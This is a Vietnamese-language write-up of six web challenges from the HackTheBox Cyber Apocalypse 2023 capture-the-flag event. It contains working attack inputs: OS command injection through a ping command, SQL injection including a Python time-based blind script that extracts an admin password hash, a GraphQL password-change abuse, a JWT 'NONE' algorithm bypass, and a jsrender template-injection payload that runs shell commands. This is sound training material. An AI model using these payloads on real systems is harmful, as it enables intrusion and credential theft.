# HackTheBox Cyber Apocalypse 2023 - The Cursed Mission

> Writeups một challenge web mà mình đã làm được trong giải HTB Cyber Apocalypse 2023 vừa qua 😉

- [Trapped Source](#Trapped-Source)
- [Gunhead](#Gunhead)
- [Drobots](#Drobots)
- [Passman](#Passman)
- [Orbital](#Orbital)
- [Didactic Octo Paddles](#Didactic-Octo-Paddles)

## Trapped Source


Giao diện trang web là một khoá mã số, nhập đúng số PIN để có thể Enter



Mình View Source Code và thấy một đoạn mã JavaScript có chứa `correctPin: "8291"`



Nhập mã PIN = 8291 và mình có được Flag



`Flag: HTB{V13w_50urc3_c4n_b3_u53ful!!!}`

## Gunhead



[Source Code](blob:https://ctf.hackthebox.com/5321c064-e64b-45b7-a9c7-b6690d015576)



Mình có để ý phía bên phải có một phần hiển thị cửa sổ command line



Gõ lệnh `/help` và mình có được một list các command có thể sử dụng



Sử dụng lệnh `/ping 127.0.0.1` chương trình thực thi câu lệnh ping đến địa chỉ 127.0.0.1



Mình thử sử dụng các câu lệnh khác thì đều bị chặn


Mình thử sử dụng OS Command Injection để thực thi lệnh OS của mình `/ping 127.0.0.1 ; id`



Vậy là mình đã có thể thực thi được lệnh OS của mình, tiếp theo là mình tìm file flag trên hệ thống

Mình tìm được file `flag.txt` ở trên folder gốc `/ping 127.0.0.1 ; ls -al /` 



 Đọc file `flag.txt`: `/ping 127.0.0.1 ; cat /flag.txt`



`Flag: HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}`

## Drobots



[Source Code](blob:https://ctf.hackthebox.com/7addbd64-9e5e-41d3-a091-87bd8bb92442)

Giao diện trang web là một form login



Source code ở phần login như sau



Chương trình sử dụng `username` và `password` để thực hiện câu truy vấn SQL, và chương trình không có thực hiện kiểm tra lại đầu vào của username, password

Mình sẽ SQL injection vào username để access admin 



Sau khi access admin thì mình thấy luôn flag



`Flag: HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!}`

## Passman



[Source code](blob:https://ctf.hackthebox.com/825711b7-7e05-4387-880b-07cfc277fbf9)



Mình thấy trang web có chức năng đăng kí, mình thử đăng kí một account và login xem thử trong đó có chức năng gì

Sau khi login thì mình thấy có một chức năng add note



Các note sau khi add thì được hiển thị trên trang dashboard



Check request thì mình thấy trang web này sử dụng graphql thực hiện các câu query graphql của mình để truy xuất dữ liệu



Kể cả phần login và register đều sử dụng graphql



Flag nằm ở trong các note của admin, vậy nên mục tiêu của challenge này là access được user admin 



GraphQL là một ngôn ngữ truy vấn dữ liệu và cũng là một công nghệ cho phép giao tiếp giữa các ứng dụng khác nhau.

GraphQL cung cấp cho người dùng khả năng truy vấn và lấy dữ liệu theo yêu cầu một cách hiệu quả và linh hoạt hơn so với RESTful APIs. Điều này cho phép người dùng chỉ yêu cầu các trường dữ liệu cụ thể mà họ muốn, giúp tối ưu hóa tốc độ và hiệu suất truy vấn. 

Ngoài ra, GraphQL cũng cung cấp cho người dùng khả năng định nghĩa các hàm truy vấn tùy chỉnh để lấy dữ liệu từ các nguồn dữ liệu khác nhau và thực hiện các thao tác thêm, sửa, xóa dữ liệu thông qua các hàm biến đổi (mutation).

Sau một hồi tìm hiểu về GraphQL mình tìm được một câu query có thể hiển thị toàn bộ các query, mutation, objects, fields…

```json
{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}
```

Thực hiện query này và mình có được



Mình xem qua các thành phần này thì phát hiện có một đoạn chức năng UpdatePassword



Xem source code phần updatePassword có chức năng đổi mật khẩu



Thử đổi password bằng payload sau thì chương trình trả về cần được xác thực

```json
{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }","variables":{"username":"admin","password":"123"}}
```



Thử sử dụng cookie của mình để đổi password admin và mình đã thành công



Access admin thành công



Xem các note của admin và mình có được flag



`Flag; HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}`

## Orbital



[Source code](blob:https://ctf.hackthebox.com/d78c625a-3f32-4e68-9e54-b0f954a2f636)

Giao diện trang web là một form login



Theo source code thì trên database chỉ có insert 1 user là admin và password là một đoạn string nào đó được mã hoá hash MD5



Và file flag được copy và đổi tên thành file `/signal_sleuth_firmware`



Mình kiểm tra source code để xem có phần nào có thể inject vào database hay không và mình chỉ có một hàm login có thực hiện câu query sử dụng username của mình, còn password thì được kiểm tra sau



Dù rằng nó kiểm tra password sau, nhưng mà mình vẫn có thể inject vào username để thực hiện blind time based attack

Thử inject và chương trình đã có delay 10s => inject thành công

```json
{"username":"\" + sleep(10)-- -","password":"a"}
```



Tiếp tục brute-force toàn bộ password 

```json
{"username":"admin\" and (select sleep(10) from users where SUBSTR(password,17,1) = '5')-- -","password":"abc"}
```

script python:

```py
import requests
import time

burp1_url = "http://144.126.196.198:32438/api/login"
burp1_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0", "Accept": "*/*", "Accept-Language": "vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Referer": "http://144.126.196.198:32438/", "Content-Type": "application/json", "Origin": "http://144.126.196.198:32438", "Connection": "close"}

alpha = "0123456789abcdef"
password = ""
for i in range(1, 33):
    for k in alpha:
        burp1_json = {"password": "abc", "username": "admin\" and (select sleep(10) from users where SUBSTR(password,"+str(i)+",1) = '"+k+"')-- -"}
        t1 = time.time()
        requests.post(burp1_url, headers=burp1_headers, json=burp1_json)
        t2 = time.time()
        if t2-t1 > 10:
            password += k
            print(password)
            break

```

output:

```
1692b753c031f2905b89e7258dbc49bb
```

Decrypt hash MD5 và mình có được password admin `ichliebedich`



Sau khi đăng nhập bằng tài khoản admin, trang này không có chức năng gì ngoài chức năng export ở cuối trang web



Request export này trả về nội dung của file được lấy từ tham số `name`



Source code ở phần export này như sau



`communicationName` được lấy từ tham số `name` của request và trả về nội dung file có path là `/communications/{communicationName}`, mà file flag của mình có path là `/signal_sleuth_firmware`, chương trình cũng không có quá trình kiểm tra đầu vào của `communicationName` nên mình sẽ sử dụng lỗi directory traversal để đọc nội dung của file `/signal_sleuth_firmware`



`Flag: HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}`

## Didactic Octo Paddles


[source code](blob:https://ctf.hackthebox.com/0dd8c02d-bad1-4584-9ec2-54d8d13a54e9)

Giao diện trang web này là một form login



Vì mình chưa có được thông tin gì nên mình sẽ đọc source code trước. Và mình tìm được một số điểm chú ý:

- Flag nằm ở thư mục gốc
  
- Ngoài trang login ra thì mình còn một số trang khác: `/register`, `/login`, `/cart`, `/add-to-cart/:item`, `/remove-from-cart/:item`, `/admin`, `/logout`
- Chương trình này sử dụng jsrender để tạo các mẫu HTML

Mình thử register và login vào xem sao. Thì ở đây là một shop có chức năng add to cart và remove from cart thông qua các trang đã biết ở trên, và 2 chức năng này cũng không có gì đáng chú ý



Mình thử truy cập vào `/admin` thì bị chặn



Vậy là ở đây có cơ chế xác thực người dùng truy cập. Mình đọc lại source code xác thực xem sao

Trong file `AdminMiddleware.js` có nội dung như sau

```js
const jwt = require("jsonwebtoken");
const { tokenKey } = require("../utils/authorization");
const db = require("../utils/database");

const AdminMiddleware = async (req, res, next) => {
    try {
        const sessionCookie = req.cookies.session;
        if (!sessionCookie) {
            return res.redirect("/login");
        }
        const decoded = jwt.decode(sessionCookie, { complete: true });

        if (decoded.header.alg == 'none') {
            return res.redirect("/login");
        } else if (decoded.header.alg == "HS256") {
            const user = jwt.verify(sessionCookie, tokenKey, {
                algorithms: [decoded.header.alg],
            });
            if (
                !(await db.Users.findOne({
                    where: { id: user.id, username: "admin" },
                }))
            ) {
                return res.status(403).send("You are not an admin");
            }
        } else {
            const user = jwt.verify(sessionCookie, null, {
                algorithms: [decoded.header.alg],
            });
            if (
                !(await db.Users.findOne({
                    where: { id: user.id, username: "admin" },
                }))
            ) {
                return res
                    .status(403)
                    .send({ message: "You are not an admin" });
            }
        }
    } catch (err) {
        return res.redirect("/login");
    }
    next();
};

module.exports = AdminMiddleware;

```

Trang admin này xác thực người dùng là admin thông qua jwt, cụ thể là nó sẽ decode đoạn cookie của mình và thực hiện kiểm tra alg của cookie:

- Nếu `alg == 'none'`: Chuyển hướng trang web về `/login`
- Nếu `alg == "HS256"`: Thực hiện kiểm tra cookie của mình với token của máy chủ
- Ngược lại: Thực hiện kiểm tra cookie của mình với null

Mình thấy `alg == 'none'` có vẻ sus, vì nếu như mình gửi `alg == 'NONE'` thì liệu rằng mình có thể bypass được hay không, để kiểm chứng thì mình liền thực hiện

Sử dụng `jwt_tool` để thực hiện đổi alg thành "NONE" và id = 1



Kết quả access admin thành công


Các chức năng ở trang admin này không có gì ngoài việc hiển thị các tên user ở đây cả, vậy nên mình nghi ngờ có thể ở trang này có chứa lỗi SSTI với jsrender

Sử dụng payload sau để register 

```
{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()")()}}
```



Access trang admin và mình có được flag



`Flag: HTB{Pr3_C0MP111N6_W17H0U7_P4DD13804rD1N6_5K1115}`